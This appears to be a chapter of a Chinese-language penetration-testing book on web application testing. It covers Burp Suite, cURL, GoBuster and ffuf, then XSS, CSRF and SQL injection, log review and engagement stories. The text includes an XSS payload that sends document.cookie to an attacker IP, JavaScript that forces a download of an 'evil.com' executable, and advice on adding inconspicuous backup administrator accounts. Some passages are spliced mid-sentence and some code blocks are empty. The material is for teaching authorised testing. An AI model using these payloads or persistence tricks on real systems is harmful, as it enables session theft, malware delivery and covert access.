# 图 3.25 成功认证到 Web 应用并访问某个实用工具

获得这些管理凭据后，我们必须记住要针对新获得的访问权限进行侦察，并将其整合到我们已有的目标情报档案中。这些新信息将带来我们可能以前没有的额外访问途径。其中之一是`文件读取实用程序`，它似乎允许我们读取系统上的文件，如图 3.25 所示。这是另一个我们稍后将调查的代码异味。

在管理功能中，我们优先创建新的额外管理员，这样即使我们已利用的用户更改了密码，我们仍然能够访问。查看现有用户，我们可以看到有许多“名字”和一个`admin`。我们不应重置/更改`admin`密码，因为这可能会让产品所有者注意到隐藏的问题。相反，我们可以创建一个新的管理员级用户，但将其命名为非常通用的名称，例如`Administrator`或`backup`。这些通用名称通常不够描述性，足以混入现有用户列表而不引起怀疑。

## 横向移动

一旦我们确信即使立足点被移除、撤销或重置，我们的访问权限仍能保持，我们就可以专注于攻击其他可能受互联网保护的系统。请记住，基于云的系统通常托管在 VPC 中，VPC 可能有权访问那些无法直接访问互联网的敏感机器。较老的公司可能仍然运行 DMZ，这可以提供对公司网络的访问。

大部分横向移动活动可以在特权提升章节以及利用与反向外壳章节中进行描述。获得对该初始机器的根级访问权限显著地

安装 Burp 后，打开应用程序并选择“临时项目”。这是社区版的限制，社区版无法保存测试活动以便稍后再次访问。点击`下一步`按钮。


# 图 3.27 打开 Burp Suite 后启动临时项目

选择`使用 Burp 默认设置`，然后点击`启动 Burp`按钮以打开测试套件。此时也可以提供配置文件，常见的配置是从漏洞赏金项目中加载，这些配置管理哪些项目处于范围内。


# 图 3.28 启动临时项目后启动 Burp Suite

Burp 窗口打开后，我们会看到几个不同的工具使用选项。请注意窗口左下角的`事件日志`显示代理服务已启动，以及服务的位置。该代理允许我们从其他非 Burp 工具发送流量到 Burp，并查看发生的活动。在此截图中，我们可以看到代理运行在 `127.0.0.1` 的 `localhost` 和 `8080` 端口上。请注意，尽管 Burp 主要与预配置的浏览器或将 Firefox 指向代理一起使用，但我们也可以将其他基于 CLI 的工具通过 Burp 代理发送。这让我们有机会在 Burp 的历史记录中查看其他工具发出的请求。


# 图 3.29 代理服务运行在 localhost 的 8080 端口上，允许其他非 Burp 程序使用该代理，以便 Burp 对其进行分析

既然我们知道 Burp 窗口已打开并正在运行代理，我们就可以开始将流量推送过去。Burp 自带一个预配置的浏览器，该浏览器使用已建立的 Burp 代理，从而减少了开始使用所需的步骤。要使用此浏览器，请点击`代理`选项卡，然后点击`拦截`选项卡，并点击`打开浏览器`。这将打开一个 Chromium 浏览器供我们使用。


# 图 3.30 打开 Burp 预配置的 Chromium 浏览器。点击 (1) 代理，(2) 拦截，(3) 打开浏览器


# 图 3.31 内置且预配置的 Burp Chromium 浏览器

打开 Chromium 浏览器后，我们通过代理进行的任何活动都会显示并汇集在 Burp 中，以便我们进一步分析。请注意，在首次打开 Burp 时，默认情况下`拦截是开启的`。这意味着*我们进行的任何网络活动都会被 Burp 代理捕获，并等待进一步发送*。启用拦截后，当所有请求离开浏览器时，我们都必须手动批准。这会减慢测试速度，并妨碍我们在整个应用中进行适当的侦察。


# 图 3.32 Burp 的拦截功能截住一个请求，等待手动操作

点击`转发`按钮会将请求发送到浏览器确定的目标端点。不过，我们也可以在发送前修改请求。修改请求是执行本章所描述的一些测试的非常有用的技术。点击`转发`按钮后，请求将被发送到目标网站，并返回响应。我们可以通过查看浏览器并获得结果来确认已收到响应。


# 图 3.33 经由 Burp 代理后从目标网站接收响应

回到 Burp 窗口，我们可以查看浏览网站以来发生的所有活动。这可以通过点击`代理`选项卡，然后点击`HTTP 历史`选项卡来实现。

生成的窗口显示通过代理发出的 HTTP 请求，以及它们收到的响应类型、方法、长度、收到的文件类型和参数。点击此窗口中的某个项目，还会显示浏览器发送和接收的完整 HTTP 请求和响应。


# 图 3.34 在 Burp 中查看 HTTP 历史，并审查相应的 HTTP 请求和响应

此外，我们可以利用一些内置的 Burp 工具来增强测试。发现了你想向它发送另一个请求，但需要快速修改的内容？当然要使用`重放器（Repeater）`！可以通过右键点击任何请求，然后点击`发送到重放器`来访问它。另外，按 `Control + R` 键也可以做到这一点。


# 图 3.35 将 HTTP 历史中的请求发送到 Repeater

点击`重放器`选项卡将打开重放器工具，我们可以在此修改请求并随时重新发送。这对于快速测试特定参数或配置，以及判断是否存在更深层次的漏洞非常有效。HTTP 请求的每个部分都可以修改，包括自定义 HTTP 方法。在下面的截图中，我们将 HTTP 方法从 `GET` 修改为非标准的 `JUMP`，这不在 HTTP RFC 规范中。正如预期的那样，我们从网站收到一个错误响应，指示该方法未实现。


# 图 3.36 使用 Burp Repeater 更改 HTTP 方法，导致服务器返回错误

这些操作仅仅触及了如何利用 Burp 的皮毛，但请放心，这是互联网上可用的最有效的 Web 安全测试工具之一。任何新的网络安全分析师都应学好如何有效使用这个工具来提供价值。可以在 PortSwigger 学院获取关于 Burp Suite 的更深入的学习内容，地址为 [https://portswigger.net/web-security](https://portswigger.net/web-security)，那里提供了各种学习材料和实验环境。

使用 Burp 收集到的信息提供了有价值的洞察，帮助我们了解浏览器上发生了什么活动，以及它如何与网站通信，还有潜在漏洞可能存在于哪些地方。

## cURL

统一资源定位符客户端（cURL）是一个命令行程序，允许用户直接从命令行发送 HTTP 和 HTTPS 请求。`cURL` 的真正魔力在于，它可以以编程方式有效地访问网站的不同部分。我们还可以执行一些操作，例如向应用程序发送带有数据的 POST 请求来与之交互。

要使用 cURL，请打开命令提示符并输入 `curl -h` 以确定它是否已安装。如果已安装，它将显示该工具的帮助信息。通读帮助信息，以了解更多关于如何使用 `cURL` 的内容。

```text
(kali㉿kali)-[~]
└─$ curl -h
Usage: curl [options...] <url>
     -d, --data <data>              HTTP POST data
     -f, --fail                     Fail fast with no output on HTTP errors
     -h, --help <category>           Get help for commands
     -i, --include                   Include protocol response headers in the output
     -o, --output <file>             Write to file instead of stdout
     -O, --remote-name               Write output to a file named as the remote file
     -s, --silent                    Silent mode
     -T, --upload-file <file>        Transfer local FILE to destination
     -u, --user <user:password>       Server user and password
     -A, --user-agent <name>         Send User-Agent <name> to server
     -v, --verbose                   Make the operation more talkative
     -V, --version                   Show version number and quit

This is not the full help, this menu is stripped into categories.
Use "--help category" to get an overview of all categories.
For all options use the manual or "--help all".
```

# 图 3.37 cURL 的帮助信息

要向网站发出一个简单的请求，我们可以将网站放在命令中。例如，要向 [m4lwhere.org](http://m4lwhere.org) 发起 Web 请求，命令 `curl m4lwhere.org` 就会发送该请求。注意，当我们在域名前不提供协议时，cURL 默认使用 HTTP 而非 HTTPS。这可以从响应中识别出来，因为响应中包含一个重定向到 HTTPS 服务的跳转。

```html
(kali㉿kali)-[~]
└─$ curl m4lwhere.org
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="https://m4lwhere.org/">here</a>.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at m4lwhere.org Port 80</address>
</body></html>
```

# 图 3.38 使用 cURL 发送请求而不指定协议时，默认使用 HTTP


要在 POST 请求载荷中提交数据，我们可以使用 `-d` 选项并提供要发送的数据。如果我们发现易受攻击的服务，就可以用它在命令行中提交漏洞利用代码。例如，如果某个网站的搜索栏通过 POST 载荷来执行搜索，我们就可以用这条命令提供相应信息。这需要我们事先对应用进行侦察，了解搜索端点同样使用这种 POST 载荷。

```bash
curl https://www.example.com/search -d 'search=coffee'
```

对于黑客而言，`cURL` 还有许多其他不同的用途，这里只是触及了可用功能的一小部分。与本章中的其他工具类似，请花时间进一步了解这些工具，以及如何利用它们构建有效的测试环境。

## GoBuster

`GoBuster` 是一种利用强制浏览技术来尝试发现网站上托管的敏感或未知文件的工具。通常，人们会发现可用于进一步攻击并在环境中横向移动的备份配置文件或电子邮件密码。像 `GoBuster` 这样的工具会向网站发送成千上万个请求，以确定哪些端点和文件的响应不同，从而可能存在。这类请求背后的思路是尽可能多地猜测文件，以判断能否发现敏感信息。

要使用 `GoBuster`，我们需要确保该程序已安装。与任何其他程序一样，我们需要通过 `gobuster -h` 来请求帮助，阅读文档。这会输出该程序的有用信息以及基本用法。

```text
(kali㉿kali)-[~]
$ gobuster -h
Usage:
  gobuster [command]

Available Commands:
  completion  Generate the autocompletion script for the specified shell
  dir         Uses directory/file enumeration mode
  dns         Uses DNS subdomain enumeration mode
  fuzz        Uses fuzzing mode. Replaces the keyword FUZZ in the URL, Headers and the request body
  gcs         Uses gcs bucket enumeration mode
  help        Help about any command
  s3          Uses aws bucket enumeration mode
  tftp        Uses TFTP enumeration mode
  version     Shows the current version
  vhost       Uses VHOST enumeration mode (you most probably want to use the IP address as the URL parameter)

Flags:
  -d, --delay duration      Time each thread waits between requests (e.g. 1500ms)
  -h, --help                help for gobuster
      --no-color            Disable color output
      --no-error             Don't display errors
  -z, --no-progress         Don't display progress
  -o, --output string       Output file to write results to (defaults to stdout)
  -p, --pattern string      File containing replacement patterns
  -q, --quiet               Don't print the banner and other noise
  -t, --threads int         Number of concurrent threads (default 10)
  -v, --verbose             Verbose output (errors)
  -w, --wordlist string     Path to the wordlist

Use "gobuster [command] --help" for more information about a command.
```

**图 3.39**  GoBuster 工具的帮助信息。

`GoBuster` 的特殊之处在于，它能做的远不止强制浏览技术。该工具还能暴力破解 DNS、枚举 S3 存储桶、枚举虚拟主机，甚至处理 TFTP。本节将重点介绍 `dir` 子命令，因为我们正在搜索旧的或易受攻击的文件。

要让 `GoBuster` 枚举网站上的内容，我们需要给它提供一个单词列表。在大多数 Kali 安装中，系统会预装一组单词列表，位于 `/usr/share/wordlists/` 下。如果没有可用的单词列表，可以通过 `sudo apt install wordlists`² 来安装。该目录下的一些最有效的单词列表是 `dirbuster` 单词列表。

一个特别有用的选项是 `-d`，用于发现已找到文件的潜在备份。正如本章前面所讨论的，经常会有附加了备份扩展名的额外文件。这可能是对线上系统进行更改时产生的，之后就被遗忘了。`GoBuster` 会搜索以下扩展名³作为备份：

- `~`

- `.bak`

- `.bak2`

- `.old`

- `.1`

要使用 GoBuster 工具，我们可以运行下面的命令来尝试识别网站上的文件。该命令使用一个单词列表文件，并附加所提供的扩展名，以查看它们是否存在于单词列表的每个条目中。此外，如果识别出文件，它还会尝试查找这些文件的备份版本。

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://scanme.nmap.org -x .html,.php,.txt
```


**图 3.40**  运行 GoBuster 搜索网站中可用的目录和文件。

`GoBuster` 是一个出色的工具，可帮助枚举整个网站或存储桶。这只是初步介绍了如何使用这些工具，强烈建议搜索更多关于如何利用这些工具发挥额外作用的信息。

## FFUF

`Ffuf` 是一个极快的工具，其全称是 “Fuzz Faster u Fool”（“更快地进行模糊测试，傻瓜”）。在强制浏览方面，该工具速度非常快，并且在数据收集方式上提供了极大的灵活性。使用 ffuf，我们可以将模糊测试负载放置在 GET、POST 甚至我们虚构的假请求方法中的任意位置。此外，我们还可以根据响应长度和响应代码来跟踪响应。⁴

运行 `ffuf -h` 来打开程序的帮助窗口。这会显示大量信息，但不要不知所措。请慢慢阅读，确保你理解我们可以利用的可用系统和配置。

```text
(kali㉿kali)-[~]
$ ffuf -h
Fuzz Faster U Fool - v1.5.0 Kali Exclusive <3

HTTP OPTIONS:
-H        Header "-Name: Value-", separated by colon. Multiple -H flags are accepted.
-X        HTTP method to use
-b        Cookie data "NAME1=VALUE1; NAME2=VALUE2" for copy as curl functionality.
-d        POST data
-http2    Use HTTP2 protocol (default: false)
-ignore-body  Do not fetch the response content. (default: false)
-r        Follow redirects (default: false)
-recursion    Scan recursively. Only FUZZ keyword is supported, and URL (-u) has to end in it.
-recursion-depth  Maximum recursion depth. (default: 0)
-recursion-strategy  Recursion strategy: "default" for a redirect based, and "greedy" to recurse on all matches.
-replay-proxy  Replay matched requests using this proxy.
-sni      Target TLS SNI, does not support FUZZ keyword
-timeout  HTTP request timeout in seconds. (default: 10)
-u        Target URL
-x        Proxy URL (SOCKS5 or HTTP). For example: http://127.0.0.1:8080 or socks5://127.0.0.1:8080

GENERAL OPTIONS:
-V        Show version information. (default: false)
-ac       Automatically calibrate filtering options (default: false)
-acc      Custom auto-calibration string. Can be used multiple times. Implies -ac
-ach      Per host autocalibration (default: false)
```

**图 3.41** 来自 ffuf 的截断帮助信息。帮助信息总共有 95 行，阅读量很大，但理解起来很重要。

要使用 ffuf，我们至少需要提供两条基本信息：要使用的字典和用于模糊测试的 URL。为了让 ffuf 知道需要在哪里放置模糊测试信息，我们还需要在测试的位置提供字符串 `FUZZ`。其最基本的形式可以通过类似下面的命令实现：

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://ffuf.me/FUZZ
```

```text
(kali㉿kali)-[~]
$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://ffuf.me/FUZZ

       /'___\  /'___\           /'___\
      /\ \__/ /\ \__/  __  __  /\ \__/
      \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
       \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
        \ \_\   \ \_\  \ \____/  \ \_\
         \/_/    \/_/   \/___/    \/_/

v1.5.0 Kali Exclusive <3
________________________________________________

:: Method           : GET
:: URL              : http://ffuf.me/FUZZ
:: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
:: Threads          : 40
:: Matcher          : Response status: 200,204,301,302,307,401,403,405,500

[Status: 200, Size: 1495, Words: 230, Lines: 40, Duration: 196ms]
# on atleast 2 different hosts [Status: 200, Size: 1495, Words: 230, Lines: 40, Duration: 197ms]
about                  [Status: 200, Size: 1229, Words: 136, Lines: 27, Duration: 197ms]
directory-list-lowercase-2.3-medium.txt [Status: 200, Size: 1495, Words: 230, Lines: 40, Duration: 200ms]
# Priority ordered case sensitive list, where entries were found [Status: 200, Size: 1495, Words: 230, Lines: 40, Duration: 195ms]
# This work is licensed under the Creative Commons
```

**图 3.42** 锚点显示了不会改变服务器返回信息的片段标识符；这会使工具的输出变得杂乱。

请注意，字典开头的注释是以 `#` 字符发送和解释的，该字符被视为锚点。锚点指向所提供文档中的资源，不会改变网页上呈现的活动。锚点也不会被发送到网站。⁵ 请记住，大量使用 JavaScript 的单页应用程序确实会利用锚点之外的信息来动态更改和更新页面。

为了防止字典中的注释作为带有无用信息的锚点和片段被发送，我们可以使用 `-ic` 开关来忽略注释。将其应用于之前的 ffuf 命令后，我们可以看到一个清晰得多的输出，从而很清楚地看到目前找到了哪些项目。


**图 3.43** 使用 `-ic` 开关忽略字典注释后，输出变得干净得多。

要搜索文件扩展名，我们可以使用 `-e` 开关提供逗号分隔的扩展名列表，这些扩展名将附加到每一行。请记住 `GoBuster` 部分中的其他文件扩展名，并了解服务器端使用了什么技术。如果我们知道服务器是用什么语言编写的，就可以智能地猜测各种扩展名来提高成功的可能性。将扩展名添加到命令中，得到如下命令：

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://ffuf.me/FUZZ -ic -e .php,.html,.txt
```

速率限制是 `ffuf` 的另一个功能，我们可以指定每秒允许的最大请求数。这是一个重要需求，用于确保我们不会压垮目标并意外导致拒绝服务。要强制实施速率限制，请使用带有每秒数据包数的 `-rate` 开关。要将活动降低到每秒 50 个请求，请在所使用的命令中添加 `-rate 50`。

与本章讨论的其他工具一样，这仅仅触及了该程序全部功能的一小部分。强烈建议使用并熟悉这些工具，因为发现隐藏或被遗忘的文件是获取组织系统访问权限的一种简单方法。以下是一些关于使用 ffuf 的其他优秀资源：

- [http://ffuf.me/](http://ffuf.me/)

- [https://danielmiessler.com/study/ffuf/](https://danielmiessler.com/study/ffuf/)

- [https://coding.io/tools/ffuf/bounty/2020/09/17/everything-you-need-to-know-about-ffuf.html](https://coding.io/tools/ffuf/bounty/2020/09/17/everything-you-need-to-know-about-ffuf.html)

## Python 库

有时候我们需要针对特定情况创建工具。在某些场景下，Web 应用程序的实现方式导致我们无法使用现有工具。在这些情况下，我们需要使用 Python 或其他编程语言创建自己的工具，以便有效地攻击目标。

现代编程的一大优点是有大量可用的开源库。如果你要完成某种任务，例如发出 HTTP 请求或执行特定类型的哈希运算，很可能其他人已经创建了能够完成这些功能的库。这些已编写好的函数是易于集成的开源库，可以随时访问，从而为你节省大量时间。使用 `pip` 等程序，我们可以安装一个已有代码的库来帮助执行特定操作，并在我们的程序中使用它。例如，`requests` 库有助于简化 HTTP 请求，并创建一种更易于管理的方式以编程方式满足我们的需求。

`pip` 程序使用位于 [pypi.org](https://pypi.org) 的 Python 包索引（PyPI）。这里托管了许多优秀的库，并提供了文档链接。更新也会推送到 PyPI，必要时可以使用 `pip` 程序更新库。


**图 3.44** [Pypi.org](https://pypi.org) 网站，托管了许多有用的 Python 库。

- iii. 使用该 nonce 值，将其与用户名拼接并进行 MD5 哈希。


- iv. 使用该 nonce 值，将其与密码拼接并进行 MD5 哈希。

- v. 使用 `requests` 库向认证端点发送 POST 请求。

- vi. 解析认证响应以确定是否成功。

- 3. 遍历每个 IP 和一组凭据。

花了大约一个多小时创建这个脚本后，我们对其进行了测试，并确定它已准备好在该环境中启动。使用包含 IP 的文本文件作为网络摄像头列表来启动此脚本，返回了约 40 个使用默认凭据或启用了访客账户的网络摄像头。这使我们能够监控客户大楼内的活动，并在最终报告中提供了一些极佳的材料。

有了编程，我们能实现的目标是无限的。运用 Google 搜索技巧将有助于发现可能在我们项目中使用的有用库。与任何其他 OSINT 调查类似，我们可以搜索关键词，以提高找到有用库的成功几率。应用已经编写好并通过社区测试的代码，可以节省我们的时间和精力，从而尽可能完成最高效的测试。

## Web 应用常见攻击

本节详细介绍了一些针对 Web 应用的常见攻击、如何发现它们以及如何利用它们。请记住，我们需要确保能够适当地武器化我们所发现的弱点，以便对目标保持有效。

为了练习这些攻击并理解其工作原理，我们可以使用一个故意设计为易受攻击的应用程序，该应用程序有详尽的文档说明如何实现这些结果。其中一个例子是 `OWASP Juice Shop`，它是一个基于 Angular 的高度交互式 JavaScript 应用程序。它模拟了一个现代在线网店及其存在的一些最常见漏洞。`OWASP Juice Shop` 可在 https://owasp.org/www-project-juice-shop/ 获取。有多个关于如何设置 Juice Shop 的说明，包括将其作为 Docker 容器运行。

### 反射型 XSS

这是我们在讨论方法论时简要介绍过的一个部分。重要的是要理解 XSS 不应被轻易忽视，尤其是取决于它被发现的位置。在一次实例中，本文作者在支付卡页面发现了一个 XSS 漏洞，使攻击者能够在信用卡数据被输入系统时获取这些数据。这是一个重要发现，我们将其报告给客户，以说明该发现的严重性。

当参数被传递给应用程序，而网站对其进行了不安全解释时，就会发生反射型 XSS。这允许页面被修改以运行额外 JavaScript 代码等内容。它被称为反射型，是因为要利用该漏洞，信息需要被传递给应用程序。反射型 XSS 还依赖于一定程度的用户交互，因为触发利用负载需要将其传递给应用程序。

为了发现 XSS 漏洞，许多情况下研究人员会使用 JavaScript 的 `alert` 函数，在窗口顶部创建一个清晰可见的提示框。当漏洞利用被正确启动和执行时，窗口会暂停并弹出提示框给用户。这清晰且明确地表明 XSS 负载已成功执行。虽然使用 `alert` 函数可以很好地证明 XSS 存在，但我们需要通过发现来产生实际影响，以证明它们可以被用来造成危害。这就是为什么我们的方法论如此注重武器化。

以 Juice Shop 为例，其搜索页面上存在一个易受攻击的参数，可用于实施反射型 XSS 攻击。请注意应用程序中的 URL，因为它包含漏洞利用代码，应用程序会对其进行解释以发起攻击。如果 URL 中没有该漏洞利用代码，攻击就不会成功。


**图 3.46** 在搜索页面上成功执行的反射型 XSS。请注意，漏洞利用代码必须放置在 URL 中，否则漏洞利用不会触发。

既然我们已经找到了一个漏洞，就需要确定其可利用性。接下来，我们可以尝试收集页面上的 cookie。可以通过 DOM 使用 `document.cookie` 属性访问 cookie，看看我们能否访问它。请注意，其中一个 cookie 被标记为 `token`，它似乎是一个用于帮助管理会话的 JSON Web Token（JWT）。


**图 3.47** 使用反射型 XSS 访问 cookie，其中一个 cookie 显示了可用的 JSON Web Token。

获取 JWT 的这个值后，我们可以将其放入有助于解析 token 为可读信息的程序中。其中一个工具是 JSON Web Tokens Burp 扩展，它会在 Burp 中解码并显示 token 的信息。解码后，我们可以看到它包含许多关于当前用户账户的敏感信息，包括用户的密码哈希。


**图 3.48** 解码 JWT 后显示，密码哈希与 token 一起存储，并且可以通过 XSS 访问。

了解了这些信息后，我们可以组织一次攻击：让用户点击一个恶意链接，XSS 在其中执行 cookie 窃取攻击，将 cookie 外传到一个攻击者控制的域名。一旦获得 cookie 值，我们就可以解码并尝试破解用户的密码，从而访问其明文账户。此外，我们还可以简单地将我们的 JWT 替换为外泄的 JWT，以接管他们当前的会话。

可以通过尝试从攻击者 IP 加载一个附加了 `document.cookie` 的资源来实现 cookie 窃取。我们的负载将类似于以下内容：

```
http://localhost:3000/#/search?q=%3Cimg%20src%3Dx%20onerror%3Dthis.src%3D%22http:%2F%2F192.168.40.97:8081%2F%3F%3D%22%20document.cookie
```

在真实场景中，本文作者曾见过一个登录页面，在 GET 请求中提供了一个“error”参数来向用户显示错误。其目的是在凭据尝试失败时给用户一个重定向，并在文档中显示为清晰的错误。然而，对 error 参数进行操纵表明它容易受到反射型 XSS 攻击。为了演示此漏洞的风险和影响，我们创建了一个负载，当点击提交按钮时，它会修改页面以增加一个 POST 提交目标。这样，在窃取凭据的同时，用户仍然可以合法登录应用程序，并且毫无察觉。

在信用卡交易的情况下，反射型 XSS 负载可用于将卡片发送到其预期位置，同时也可发送到攻击者控制的基础设施。Magecart 组织针对易受攻击的电子商务网站实施了一系列类似的攻击，导致 2020 年有近 7000 万张信用卡被出售。⁵

请记住，反射型 XSS 是一种特定类型的攻击，只有将特定负载呈现给 Web 应用程序时才会触发。这限制了漏洞的可利用性，因为它依赖于用户交互。

### 存储型 XSS

存储型 XSS 的发现方式与反射型 XSS 非常相似，但关键区别在于我们不再依赖用户的操作来触发漏洞利用。存储型 XSS 驻留在被利用的位置，等待一个毫无防备的用户加载页面。这通常出现在论坛帖子、招聘信息和博客评论等位置。一旦用户浏览到受影响的网页，XSS 负载就会在其浏览器中启动。

我们可以在网站上发起相同类型的 XSS 攻击，也可以在我们将运行的 JavaScript 代码类型上发挥创意。在窃取 cookie 的情况下，我们需要找到一种在 cookie 过期或被撤销之前快速利用它们的方法。由于不需要用户执行操作，我们可能无法很好地预知漏洞利用何时触发。

出于这些原因，存储型 XSS 被认为是比反射型 XSS 严重得多、影响更大的漏洞。受此漏洞影响的用户数量远高于反射型攻击，仅仅是因为它不需要用户交互。

### CSRF

跨站请求伪造（Cross-Site Request Forgery）是一种攻击，用户被强制完成一个非自愿的操作。例如，假设在我们的 Web 应用中，攻击者完全理解了用于更改用户账户密码的确切 POST 请求。如果该攻击者能够创建一个强制用户发送该确切 POST 请求的页面，他们就可以诱使合法用户点击链接，从而执行攻击。


**图 3.49** CSRF 攻击：用户的密码在未经其同意的情况下被更改。

如果没有应用程序要求的某种身份验证令牌，攻击成功的可能性会很高。此类攻击带来的影响是账户的合法所有者失去该账户，而攻击者则获得对该账户的访问权限。

`Burp Suite Pro` 拥有出色的 CSRF POC 生成工具，测试人员可以快速展示缺少 CSRF 防护所带来的影响。

## SQL 注入（SQLi）

SQL 注入（SQLi）是一种非常常见的利用方式，攻击者会修改发送到后端 SQL 数据库的 SQL 语句。通过修改查询，攻击者可以获取额外的记录、密码，甚至可能的金融数据。如果网站未能有效缓解 SQLi，这是一种高风险问题，可能给网站造成严重后果。

例如，假设下面的 SQL 语句用于检查密码是否与数据库中的密码匹配：

```
SELECT username, password FROM users WHERE username = "$_POST['username']" AND password = "$_POST['password']";
```

只需在密码末尾添加一个 `'`，就会改变 SQL 语句的解释方式。直接从用户输入进行字符串拼接，使用户可以更改发送到数据库的查询。现在我们可以修改该查询的剩余部分，看看还能执行哪些额外操作。例如，经典的 `OR 1=1 --` 就经常被使用。实际上，将它添加到注入语句末尾相当于在说：“*密码错误也没关系，因为我始终等于 1——所以让我进去吧！*”

`SQLmap` 是一款众所周知的工具，可用于在网站上自动化执行大量 SQL 攻击。它还为我们提供了极大的灵活性，便于进行数据外泄和捕获。甚至还可以仅通过 SQLi 尝试在主机上获得完整 shell！


**图 3.50** 对存在漏洞的服务器运行 SQLMap，检测到的数据库类型为 SQLite。

但请记住，`SQLmap` 是一个 *非常* 高调的工具，因为它会在极短时间内产生成千上万的请求。这会给目标留下大量日志，并且

要窃取 cookie，我们可以尝试从自己控制的服务器加载资源，并记录 GET 请求。这个特定 payload 会在文档中写入一个新的 HTML 图像，它试图加载一张图片，但同时将 `document.cookie` 添加到页面中。

```javascript
document.write('')
```

其他实现 cookie 窃取 payload 的方法包括尝试加载一张永不会加载成功的图片，然后把我们的 payload 放在会执行的 `onerror` 中。

```html

```

我们还可以让系统自动下载文件。这可能很有效，因为在用户看来，该文件来自受信任的网站。检查数据包时，很明显文件是从另一台服务器下载的，但我们仍试图利用被攻击网站的信任。

```javascript
var link = document.createElement('a');
link.href = 'http://evil.com/downloads/bad.exe';
link.download = '';
document.body.appendChild(link);
link.click();
```

## 防御性应用

为了更好地防御 Web 应用，我们应该对它们的漏洞以及可能受到的攻击方式有深入而清晰的理解。事实上，任何连接到互联网的系统都会遭受攻击；确保这些系统受到足够保护以维持运行，是我们必须承担的责任。除此之外，我们还必须理解攻击者会如何思考并决定在环境中如何移动。为了保护组织，我们应始终确保日志记录处于启用状态，并定期审查。

## 日志审查

应定期审查日志，以确保网站不仅运行正常，而且能够评估针对系统发起的攻击。

要在 Linux 机器上定位日志，我们需要先了解它使用的是哪个 Web 服务器程序。对于 Apache，系统日志位于 `/var/log/apache2/`，其中包含我们关心的访问日志和错误日志。当攻击和其他异常请求出现在我们的服务器上时，我们可以关联这些日志中的活动，帮助判断它们是否可能成功。

基于 Nginx 的日志位于 `/var/log/nginx`。与 Apache 类似，Nginx 也使用访问日志和错误日志来帮助关联活动。Digital Ocean 在 https://www.digitalocean.com/community/tutorials/nginx-access-logs-error-logs 提供了一些关于识别和审查 Nginx 日志的优秀资料。

日志收集到的数据只有在被审查时才有价值——通过主动告警识别攻击，对于减少损害有着显著作用。不仅要确保日志被收集，还要定期审查其中是否存在攻击。

## 技术控制

有许多开源附加控件，几乎可以即时提升网站安全性。这些由社区构建的程序旨在直接与

## 攻击你自己的系统

你应当运用本章介绍的技术并结合自身经验，攻击自己的 Web 应用，以确定它们是否存在这些类型的漏洞。对组织 Web 应用进行手动攻击和分析，能够在漏洞被用来危害组织之前发现它们，事实证明这种做法非常有效。

和往常一样，在开始任何测试之前，请确保已获得应用所有者和运营者的书面授权。根据作者的经验，只要注意资源的可用性，内部应用开发人员和 IT 联系人（POC）通常对内部安全测试持开放态度。组织仍需正常开展业务，因此必须尽量减少任何可能影响合法操作正常功能的攻击。

## 实战故事

作者在互联网和内部环境中测试 Web 应用时，积累了许多故事。下面这些段落不仅涵盖所发现的一部分漏洞，还介绍如何将这些漏洞武器化以证明影响。

在一次测试项目中，我们发现了一个任意文件上传漏洞，它允许我们以“头像图标”的形式上传任意类型的文件。该文件存储在另一台服务器的文件系统上，并由 Apache 直接提供访问。不幸的是，该 Web 应用没有进行任何检查来阻止非图片文件上传——因此我们可以上传任意 PHP 文件，该文件被 Apache 执行，从而实现远程代码执行。我们进一步利用这一点创建了 meterpreter 会话，以便在机器和 DMZ 中进一步提权。在报告建议中，我们指出了这个上传字段在当前配置下如何构成威胁。我们结合 OWASP WSTG 和其他速查表，提出了保护该应用免受此类攻击的建议。

另一个有趣的故事是在客户网站上运行 `GoBuster` 时，发现了 `config.php.bak` 文件。访问该文件时，它未经 PHP 解释便直接返回，让我们清楚了解了该 Web 应用的各类配置方式。其中一条关键信息是 Web 应用的邮件配置，包含组织 IT 帮助台账户的明文密码。我们利用这组凭据登录了其 Outlook Web Access 中的 IT 帮助台账户，从而能够访问内部邮件系统。此时，我们可以以合法帮助台账户的身份向用户发送邮件，并能够策划一次极具迷惑性的钓鱼攻击。想象一下，你收到组织合法帮助台邮箱发来的邮件，要求所有人测试自己的密码强度。这简直是 *极具杀伤力*，而且很可能损害终端用户对组织 IT 资源的信任——这正是我们没有实施它的原因。请记住，在渗透测试中我们同属一个团队；我们的目标是发现并准确呈现运行环境中的风险。在报告中，我们概述了如何发现明文密码并获取邮件账户访问权限，然后也解释了我们为何决定不进一步利用。该组织的联系人（POC）对我们没有利用帮助台账户继续钓鱼用户这一判断非常赞赏。

第三个故事是前面提到的登录错误参数上的反射型 XSS。该漏洞被武器化：利用已经引入 DOM 的 jQuery 库，创建一个 AJAX POST 请求，在用户点击“登录”按钮时窃取凭据。通过读取 DOM 中包含用户名和密码的字段，我们可以挂钩登录按钮，在它被点击时外泄这些信息。结果如何？从用户角度看，登录体验完全无缝——他们点击登录按钮后仍能像预期那样正常登录应用。然而，一个额外的请求已经发送到我们控制的服务器，窃取了从 DOM 中获取的明文凭据。这个故事尤其有助于理解 XSS 的真实风险以及它如何被武器化。

## 摘要

Web 应用程序一直是，并且将继续成为针对目标的有效攻击面，因为 Web 正不断更深地融入日常生活。为了有效评估应用程序，我们需要确保自己拥有一套严格的方法，不仅要收集潜在主机，还要识别它们提供的服务。所收集到的每条信息都可以纳入整体情报图景。

了解在此类测试中应利用的工具和程序，有助于我们在这些漏洞被威胁行为者攻击之前发现它们。知道如何正确使用这些工具，可以确保我们能够有效地发现并处理这些问题。

与网络安全中的其他一切一样，保持领先并不断深入了解每一项技术，是取得成功的关键。

## 注释

- 1. https://owasp.org/www-project-amass/

- 2. https://www.kali.org/tools/wordlists/

